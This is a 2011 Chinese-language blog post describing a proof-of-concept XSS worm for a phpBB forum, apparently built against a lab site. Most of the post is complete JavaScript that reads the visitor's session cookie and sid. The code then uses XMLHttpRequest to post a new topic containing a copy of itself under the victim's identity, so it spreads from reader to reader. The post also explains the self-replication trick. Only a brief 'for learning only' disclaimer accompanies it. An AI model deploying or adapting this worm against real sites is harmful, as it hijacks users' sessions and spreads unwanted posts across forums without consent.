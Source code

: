 ```yaml
---
id: 1049
title: 'JS实现循环感染XSS Worm。'
date: '2011-03-27T21:35:38+08:00'
author: colordancer
layout: post
guid: 'http://www.colordancer.net/blog/?p=1049'
permalink: /2011/03/27/js%e5%ae%9e%e7%8e%b0%e5%be%aa%e7%8e%af%e6%84%9f%e6%9f%93xss-worm%e3%80%82/
views:
    - '1951'
classic-editor-remember:
    - classic-editor
categories:
    - 开发设计
---
```


这是去年十月份刚来北京时帮朋友做的一个poc。当时已经很久没有碰Web了，所以做起来遇到点小麻烦，但是最终搞定。

主要目的是在有XSS漏洞的论坛上发帖（包含恶意JS），当用户访问该贴时，帖中的JS代码会获得访问者的cookie，然后用改访问者的身份信息自动发一个具有同样功能的帖子。依次类推，实现Worm的功能。

获得Cookie的方法不难。伪造用户数据也不难。难点在于，怎样将一段js代码本身当做该段js代码中的一部分post出去。去几个论坛调查了几次，并结合自己的研究，通过以下方法解决：  
1\. 利用arguments.callee.toString();获得当前函数的string文本  
2\. 去掉将该段文本中的”换行“  
3\. encodeURIComponent()转义  
  
完整代码如下(**以下代码仅供学习之用，用作其他用途则与作者本人无关**）：  
&lt;script&gt;  
function xssworm(){  
cookie = document.cookie;  
sid\_pos=cookie.indexOf(“\_sid”);  
sid = cookie.substring(sid\_pos+5,sid\_pos+5+32);  
msg=”&lt;script&gt;”;  
msg+=arguments.callee.toString();  
msg=msg.replace(/\\r|\\n/g,””);  
msg+=”xssworm();&lt;/sc”; msg+=”ript&gt;”;  
msg=encodeURIComponent(msg);  
ajax=new XMLHttpRequest();  
ajax.open(“POST”,”http://www.xsslabphpbb.com/posting.php”,true);  
ajax.setRequestHeader(“Cookie”,cookie);  
ajax.setRequestHeader(“User-Agent”,”Mozilla/5.0″);  
ajax.setRequestHeader(“Keep-Alive”,”300″);  
ajax.setRequestHeader(“Content-Type”,”application/x-www-form-urlencoded”);  
ajax.setRequestHeader(“Host”,”www.xxx.com”);  
ajax.setRequestHeader(“Referer”,”http://www.xxx.com/posting.php?mode=newtopic&amp;f=1″);  
postData=’subject=This\_Is\_A\_XSS\_Worm&amp;addbbcode18=%23444444&amp;addbbcode20=0&amp;helpbox=Code+display%3A+%5Bcode%5Dcode%5B%2Fcode%5D++%28alt%2Bc%29&amp;message=’+msg+’&amp;poll\_title=&amp;add\_poll\_option\_text=&amp;poll\_length=&amp;mode=newtopic&amp;sid=’+sid+’&amp;f=1&amp;post=Submit’;  
ajax.send(postData);  
}  
xssworm();  
&lt;/script&gt;